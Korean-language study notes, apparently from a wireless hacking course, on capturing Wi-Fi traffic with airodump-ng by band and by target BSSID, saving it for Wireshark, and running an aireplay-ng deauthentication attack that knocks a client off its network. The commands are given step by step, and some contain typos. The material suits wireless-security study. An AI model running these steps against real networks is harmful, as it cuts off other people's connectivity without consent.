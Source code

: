 [주파수 정해서 패킷 캡처하는 방법]

1) `airodump-ng --band a wlan0`

![Untitled](project%201a10e99f9a2144feb77ac6ee80e3d377/Untitled%2015.png)

필터링해서 얼마 안 보인다.

band는 여러 개 설정도 가능하다. abg로 해서 2.4 및 5GHz 주파수 모두에서 데이터를 캡처하도록 지시하려면 `airodump-ng -—band abg mon0` 이렇게 사용한다.

### 15. Targeted Sniffing Using Airodump-ng

패킷 캡처본을 저장하고싶다면 저장하고싶은 패킷의 bssid와 channel을 기억해서 아래의 명령어에 적어준다.

1) `airodum-ng —bssid F8:23:B2:B9:50:A8 —channel 2 —write test wlan0`

⇒ test-01.cap 파일에 저장됨

2) `wireshark`

wireshark로 패킷 분석 할 수 있따.

### 16.Deauthentication Attack (Disconnecting Any Device From The Network) D 인증 공격

이 공격을 통해 네트워크에 연결하기 전에 모든 네트워크에서 모든 장치의 연결을 끊을 수 있으며, 네트워크의 비밀번호 모른채로 airplay 도구를 사용해서 router인 척 연결이 끊겨졌다고 어댑터에게 전달하자

1) `airodump-ng` 로 데이터 찾기

2) 1번째 터미널 창 보면서 mac 주소 참고하며 새로운 터미널창 열어서 `aireplay-ng —deauth 10000000 -a [Mac주소 BSSID] -c [클라이언트 Mac 주소 STATION] (-D : 5Ghz 이상일 때) mon0` (아직 enter x)

10000000 : 인증 패킷의 개수. 많이 보내서 두 라우터 모두에게 계속 보낼 수 있게함

3) 1번째 터미널 창에서 `airodump -ng —bssid F8:23:B2:B9:50:A8 —channel 2 mon0` 으로 검색 

4) 2번째 터미널 창에서 이제 enter

그러면 원래 내 컴퓨터가 연결되던 네트워크가 끊긴 것을 확인할 수 있다. 인터넷 들어가도 연결이 안된다.
